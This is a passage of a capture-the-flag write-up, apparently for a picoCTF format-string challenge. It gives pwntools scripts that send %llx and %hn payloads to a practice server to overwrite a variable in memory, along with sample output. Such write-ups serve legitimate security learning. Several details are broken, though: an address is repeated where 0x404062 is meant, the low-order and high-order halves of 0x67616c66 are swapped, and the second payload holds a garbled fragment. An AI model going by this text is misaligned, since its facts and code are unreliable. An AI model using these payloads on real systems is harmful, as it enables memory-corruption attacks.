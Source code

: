 ## Writing to the stack

Now, what we can try to do is move to the address `0x404060` (the address where sus is located), and then `0x404060` (2 forward). This way we can try to write half a number at the time.

**Keep in mind**: the bytes in the memory are stored in little endian order. In little-endian systems, the least significant byte (LSB) of a multi-byte value is stored first (at the lowest memory address), and the most significant byte (MSB) is stored last (at the highest memory address). **This is why we're writing the addresses "backwards"**.

```py
from pwn import *

payloads = b'%17$llx,%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00WEAREHERE'

r = remote('rhea.picoctf.net',60978)
r.sendline(payloads)
r.interactive()
```

Our output should look something like this:
```
> python3 solve.py
[+] Opening connection to rhea.picoctf.net on port 60978: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24303225,2c786c6c24313225,2c786c6c24323225,404060,404062,5245484552414557,`@@
sus = 0x21737573
You can do better!
[*] Got EOF while reading in interactive
$
```
The `404060,404062` part indicates we were successful with moving to our desired part in the stack.

But remember: our goal isn't to just overwrite sus, it's to overwrite it to specifically `0x67616c66`. But because it's in little endian order, we need to write the first half, AKA the **low-order bytes**, `0x6761` and then the second half, AKA the **high-order bytes**, `6c66`. If we convert `0x6761` from hexadecimal to decimal, we get `26465`. Meaning we need to push a value of `26465` to get to `0x6761`. The script below accomplishes this.

```py
from pwn import *
r = remote('rhea.picoctf.net',57321)
s = r.recvuntil('say?')
r.sendline(b'%26464d,%20$hnx%,20$llx,%21$llx,%22$llx,\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00WEAREHERE')
r.interactive()
```
Let's break down this script step-by-step:

`%26464d,` : This ensures our output string has 26465 characters (notice the `,` also counts as a character)
